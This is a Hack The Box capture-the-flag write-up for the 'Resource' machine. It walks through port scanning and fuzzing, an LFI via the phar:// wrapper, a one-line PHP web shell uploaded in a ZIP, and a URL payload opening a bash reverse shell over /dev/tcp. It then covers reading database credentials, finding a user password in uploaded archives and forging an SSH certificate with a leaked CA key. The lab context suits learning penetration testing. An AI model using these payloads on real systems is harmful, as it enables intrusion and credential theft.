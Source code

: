```yaml
---
title: "Resource - Hack The Box Machines"
date: 2024-08-08 08:00:00 - 0500
categories: [Hack The Box, Machines]
tags: [htb, machine, web, resource, seasonvi]
image: 
  path: /assets/img/posts/htb/htb.png
---
```



## Reconnaisance

![Desktop View](/assets/img/posts/htb/e83ac2321955bd2e0beb788d47fa5ae9.png){: width="972" height="589" }
_Resource HTB Season VI_

Hello, everyone! 👋 Welcome back. This is the first machine challenge of `Season VI` and it has a medium difficulty level. As with many previous attempts to pwn a box, I will use the `nmap` tool to scan the target machine and determine which ports are open.

```bash
[user@machine] - $ nmap -p- 10.10.11.x -T4 --min-rate=1000 -Pn --disable-arp-ping -oN nmapscan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 10:59 EDT
Warning: 10.10.11.x giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.x
Host is up (0.073s latency).
Not shown: 63965 closed tcp ports (conn-refused), 1567 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 104.88 seconds
```
{: .nolineno }


With the initial scan, I determined that three ports are open on the target machine: 22, 80, and 2222.

```bash
[user@machine] - $ nmap -p22,80,2222 -sC -sV 10.10.11.x

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 12:10 EDT
Nmap scan report for 10.10.11.x
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d5:4f:62:39:7b:d2:22:f0:a8:8a:d9:90:35:60:56:88 (ECDSA)
|_  256 fb:67:b0:60:52:f2:12:7e:6c:13:fb:75:f2:bb:1a:ca (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://itrc.ssg.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:a6:83:b9:90:6b:6c:54:32:22:ec:af:17:04:bd:16 (ECDSA)
|_  256 0c:c3:9c:10:f5:7f:d3:e4:a8:28:6a:51:ad:1a:e1:bf (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.22 seconds
```
{: .nolineno }

From the nmap scan report, we can see that the target machine has the following open ports and services:
- Ports open:
    - 22/tcp: SSH service (OpenSSH 9.2p1 Debian)
    - 80/tcp: HTTP service, redirect to `http://itrc.ssg.htb/` and has an `nginx/1.18.0` server header.
    - 2222/tcp: SSH service (OpenSSH 8.9p1 on Ubuntu)

I am wondering why there are two SSH services open on different ports for two different versions of OpenSSH?<br>
Use this command to add an IP and hostname to file `/ect/hosts`

```bash
[user@machine] - $ echo "10.10.11.x itrc.ssg.htb" | sudo tee -a /etc/hosts
```
{: .nolineno }

Next, I accessed the target machine on port 80 at `http://itrc.ssg.htb`, which led me to an IT Support Center page. Reading the introduction section on the website, it mentions `Managing SSH Access`, ...


![Access web](/assets/img/posts/htb/ZUcp4D5uDq.png){: width="972" height="589" }
_Access webpage on port 80_

Next, to see what this website does, I need to register an account and log in.

![Access web](/assets/img/posts/htb/I3ioT1nYNb.png){: width="972" height="589" }
_Login page_

![](/assets/img/posts/htb/774Jbz1Bra.png){: width="972" height="589" }
_Dashboard page_

Use ffuf to `fuzz` the `page` parameter.
```bash
[user@machine] - $ ffuf -u http://itrc.ssg.htb/index.php/\?page\=FUZZ  -w ~/workspace/machine/SecLists-master/Discovery/DNS/n0kovo_subdomains.txt -fs 3120 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://itrc.ssg.htb/index.php/?page=FUZZ
 :: Wordlist         : FUZZ: /home/natsu/workspace/machine/SecLists-master/Discovery/DNS/n0kovo_subdomains.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 3120
________________________________________________

admin                   [Status: 200, Size: 1331, Words: 136, Lines: 26]
login                   [Status: 200, Size: 2709, Words: 239, Lines: 44]
register                [Status: 200, Size: 2842, Words: 255, Lines: 45]
dashboard               [Status: 200, Size: 1331, Words: 136, Lines: 26]
db                      [Status: 200, Size: 2276, Words: 158, Lines: 35]
ticket                  [Status: 200, Size: 1331, Words: 136, Lines: 26]
index                   [Status: 200, Size: 2276, Words: 158, Lines: 35]
logout                  [Status: 200, Size: 2627, Words: 196, Lines: 39]
```
{: .nolineno }

Accessing the `page=admin`, I see several tickets with subjects such as `Malware in finance dept` and `SSH Key Signing Broken`, but I cannot access most of these tickets to view their detailed contents.

And one notable thing is that under Admin Tools, I see `Contact zzinter for manual provisioning`

![Access web](/assets/img/posts/htb/wl6B6DycYy.png){: width="972" height="589" }
_Access web at admin page_

Going back to the dashboard, I tried to create a ticket with the subject `New ticket` and uploaded a ZIP file.
![](/assets/img/posts/htb/VT7KF8aPSu.png){: width="972" height="589" }

When I right-clicked on the `file.zip` location, I saw that the uploaded file is stored at the path: `itrc.ssg.htb/uploads/a00308c0438df0f0cb98f5261ca9124e57fcd1ed.zip`
![](/assets/img/posts/htb/f4fL4Yfuzg.png){: width="972" height="589" }

Looking at the filename, it appears to be some sort of hash, and it is indeed a SHA-1 hash.
![](/assets/img/posts/htb/ePZVwFwTED.png){: width="972" height="589" }
_sha1sum file.zip_

After uploading a regular ZIP file, I tried uploading an empty file to see if any errors occurred.
In the response, I noticed that two functions mentioned in the misreporting are `ZipArchive::open()` and `hash_file()` in the file `/var/www/savefile.inc.php`

![Access web](/assets/img/posts/htb/AhbMSzXGYE.png){: width="972" height="589" }
_Upload empty file zip_

## LFI loophole 
![Access web](/assets/img/posts/htb/sT30Q7ekyj.png){: width="972" height="589" }
_Access file in /var/www/itrc_

Test the LFI loophole with some protocols like `file`, `dict`, `phar`: `itrc.ssg.htb/?page=file:///var/www/itrc/create_ticket`.
![Access web](/assets/img/posts/htb/ajWwYf5yLu.png){: width="972" height="589" }
_LFI loophole_

## RCE www-data
Upload file shell and RCE

```bash
<?php
	system($_GET["cmd"]);
	__HALT_COMPILER();
?>
```
{: .nolineno }

```bash
$ zip shell.zip shell.php
$ sha1sum shell.zip
```
{: .nolineno }

```
http://itrc.ssg.htb/?page=phar://uploads/aee15c9bfb55e6c04a49b57d2c62a215f62e1d26.zip/shell&cmd=/bin/bash+-c+%27/bin/bash+-i+%3E%26+/dev/tcp/<your ip>/9001+0%3E%261%27
```
Listen and get reverse shell.
![](/assets/img/posts/htb/5zT91t6m6p.png){: width="972" height="589" }
_Reverse shell_

```bash
www-data@itrc:/var/www/itrc$ cat db.php

<?php

$dsn = "mysql:host=db;dbname=resourcecenter;";
$dbusername = "jj";
$dbpassword = "ugEG5rR5SG8uPd";
$pdo = new PDO($dsn, $dbusername, $dbpassword);

try {
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Connection failed: " . $e->getMessage());
}
```
{: .nolineno }

![Access web](/assets/img/posts/htb/HikHECRoHm.png){: width="972" height="589" }
_Home folder_

## msainristil@itrc

As mentioned earlier in the admin page, we saw several tickets that had already been created, and upon checking the uploads directory, I found multiple ZIP files. It's possible that, besides the files I uploaded, the remaining files were uploaded by those tickets.

I used zipgrep to check if any of these ZIP files contain sensitive information.

```bash
$ for zipfile in *.zip; do zipgrep "msainristil" "$zipfile"; done

"user=msainristil&pass=82yards2closeit"
```
{: .nolineno }
![Access web](/assets/img/posts/htb/eNkVNvGhaF.png){: width="972" height="589" }
_User msainristil_

SSH to target machine with username and password `msainristil:82yards2closeit`


![Access web](/assets/img/posts/htb/ObNMYEca1Y.png){: width="972" height="589" }
_SSH user msainristil_

![Access web](/assets/img/posts/htb/IDhUIWevhR.png){: width="972" height="589" }
_Certificate CA_

## zzinter@itrc 

```bash
$ ssh-keygen -t rsa -b 2048 -f yzx
$ ssh-keygen -s ca-itrc -I ca-itrc.pub -n zzinter yzx.pub
$ ssh-keygen -Lf yzx-cert.pub
$ ssh -o CertificateFile=yzx-cert.pub -i yzx zzinter@localhost
```
{: .nolineno }

![Access web](/assets/img/posts/htb/EquSHNMrMP.png){: width="972" height="589" }
_Get user flag_


